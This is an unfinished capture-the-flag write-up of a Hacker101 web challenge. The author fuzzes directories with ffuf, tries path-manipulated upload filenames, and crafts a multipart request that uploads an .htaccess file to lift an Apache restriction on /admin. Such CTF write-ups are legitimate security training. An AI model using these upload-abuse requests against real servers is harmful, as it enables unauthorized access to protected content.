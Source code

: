 # Y2FuIHlvdSByZWNvbj8/

https://ctf.hacker101.com/ctf/start/247

So this challenge has an interesting name, what's that in Base64?

```
can you recon??
```

Lets' find out! So the main page seems to have this with some upload functionality

![File dropper](./images/file-dropper.png)

OK so what happens when I upload some text file

![File dropper](./images/file-dropper-uploaded.png)

OK the request worked but it's not appearing in the list of files table, hmmm what does Burp say about the request?

```
POST / HTTP/2
Host: xxx.ctf.hacker101.com
Cookie: _ga=GA1.2.2088535546.1649282063; _gid=GA1.2.536591466.1653431291
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3606468458223557603682334515
Content-Length: 345
Origin: https://xxx.ctf.hacker101.com
Referer: https://xxx.ctf.hacker101.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------3606468458223557603682334515
Content-Disposition: form-data; name="filename"

something
-----------------------------3606468458223557603682334515
Content-Disposition: form-data; name="upload"; filename="testing.log"
Content-Type: text/x-log

xxx
-----------------------------3606468458223557603682334515--
```

Can I access testing.log from the browser at ```https://xxx.ctf.hacker101.com/testing.log```?

```
HTTP/2 404 Not Found
Date: Wed, 25 May 2022 14:55:06 GMT
Content-Type: text/html; charset=iso-8859-1
Content-Length: 312
Server: openresty/1.21.4.1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at xxx.ctf.hacker101.com Port 80</address>
</body></html>
```

Nope, what if I modify the filename path in the upload request to be in ```/var/www/html```

```
-----------------------------3606468458223557603682334515
Content-Disposition: form-data; name="filename"

something
-----------------------------3606468458223557603682334515
Content-Disposition: form-data; name="upload"; filename="/var/www/html/testing.log"
Content-Type: text/x-log

xxx
-----------------------------3606468458223557603682334515--
```

Still nope

```
HTTP/2 404 Not Found
Date: Wed, 25 May 2022 14:55:06 GMT
Content-Type: text/html; charset=iso-8859-1
Content-Length: 312
Server: openresty/1.21.4.1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at xxx.ctf.hacker101.com Port 80</address>
</body></html>
```

OK let's park that for now, lets do some directory/file fuzzing

```
ffuf -u 'https://xxx.ctf.hacker101.com/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://xxx.ctf.hacker101.com/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

admin                   [Status: 403, Size: 315, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 315, Words: 20, Lines: 10]
                        [Status: 200, Size: 2306, Words: 584, Lines: 58]
:: Progress: [30000/30000] :: Job [1/1] :: 192 req/sec :: Duration: [0:03:22] :: Errors: 2 ::
```

OK so we have an admin directory, but a 403 status, how about files in the same directory?

```
ffuf -u 'https://xxx.ctf.hacker101.com/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://xxx.ctf.hacker101.com/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 315, Words: 20, Lines: 10]
.html                   [Status: 403, Size: 315, Words: 20, Lines: 10]
.php                    [Status: 403, Size: 315, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 315, Words: 20, Lines: 10]
.htm                    [Status: 403, Size: 315, Words: 20, Lines: 10]
.htpasswds              [Status: 403, Size: 315, Words: 20, Lines: 10]
.htgroup                [Status: 403, Size: 315, Words: 20, Lines: 10]
wp-forum.phps           [Status: 403, Size: 315, Words: 20, Lines: 10]
.htaccess.bak           [Status: 403, Size: 315, Words: 20, Lines: 10]
.htuser                 [Status: 403, Size: 315, Words: 20, Lines: 10]
.ht                     [Status: 403, Size: 315, Words: 20, Lines: 10]
.htc                    [Status: 403, Size: 315, Words: 20, Lines: 10]
:: Progress: [17129/17129] :: Job [1/1] :: 211 req/sec :: Duration: [0:01:37] :: Errors: 0 ::
```

So standard Apache files, .htaccess is probably blocking us from viewing the admin directory. Let's take a pause and have a look at the hint given

```
How can you abuse the site to disable or rewrite the Apache rule?
```

Yup that definately sounds like htaccess to me, OK so can I upload my own version of .htaccess. Something like this from Burp repeater

```
POST / HTTP/2
Host: xxx.ctf.hacker101.com
Content-Type: multipart/form-data; boundary=---------------------------116011291533425845832555597320
Content-Length: 410

-----------------------------116011291533425845832555597320
Content-Disposition: form-data; name="filename"

something
-----------------------------116011291533425845832555597320
Content-Disposition: form-data; name="upload"; filename="/var/www/html/.htaccess"
Content-Type: plain/text

<Directory /admin>
Allow from all
</Directory>

-----------------------------116011291533425845832555597320--
```

OK so the response looks alright

```html
<div class="alert alert-success text-center">
    <p>File uploaded successfully</p>
</div>
```

But I still can't access the admin path! I feel like I need to work out (a) Is the upload actually working? (b) If so where the hell is it actually uploading to?

TBC....